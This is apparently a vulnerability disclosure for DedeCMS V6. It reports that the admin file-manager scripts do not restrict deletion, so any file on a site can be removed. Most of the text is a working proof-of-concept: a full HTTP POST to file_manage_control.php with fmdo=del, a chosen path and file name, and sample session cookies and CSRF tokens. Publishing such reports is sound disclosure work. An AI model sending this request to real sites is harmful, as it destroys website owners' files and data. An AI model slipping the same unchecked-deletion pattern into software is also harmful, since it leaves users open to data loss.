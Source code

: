 # dedecmsv6
There are no restrictions on deleting files in file_manage_control.php and file_class.php,
so sending fixed data packets to file_manage_control.php can delete any file on the website.

After the administrator logs in, the following data packets are sent, activepath represents the directory, and filename represents the file name：
POC:

POST /DedeCMSV6-master/src/admin/file_manage_control.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://xx.xx.xx.xx
Connection: close
Referer: http://xx.xx.xx.xx/DedeCMSV6-master/src/admin/file_manage_view.php?fmdo=del&filename=test.php&activepath=
Cookie: menuitems=1_1%2C2_1%2C3_1%2C5_1%2C4_1; PHPSESSID=i20mmut5128j63u9esd5l9k8s6; DedeUserID=1; DedeUserID__ckMd5=210ceb5e86540252; DedeLoginTime=1665381687; DedeLoginTime__ckMd5=bf8aeae2f9ed5fd0; dede_csrf_token=97cb0292999d618f7e6a62e475bec9ad; dede_csrf_token__ckMd5=d502bce6a74e73cc; ENV_GOBACK_URL=%2FDedeCMSV6-master%2Fsrc%2Fadmin%2Fmedia_main.php%3Fdopost%3Dfilemanager
Upgrade-Insecure-Requests: 1

fmdo=del&activepath=/&filename=test.php
